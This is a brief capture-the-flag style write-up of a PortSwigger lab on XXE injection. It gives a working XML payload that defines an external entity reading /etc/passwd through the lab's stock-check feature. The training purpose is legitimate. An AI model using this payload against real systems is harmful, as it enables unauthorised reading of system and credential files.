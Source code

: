 # Portswigger Writeups

## Lab 1: XXE for Arbitrary File Read

This lab is solved by reading `/etc/passwd`, and it uses a 'Check stock' function that parses XML input:

![](../../.gitbook/assets/portswigger-xxe-writeup-image.png)

This is an apprentice lab, so this can be solved using a basic payload.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<stockCheck>
<productId>&test;</productId>
<storeId>1</storeId>
</stockCheck>
```
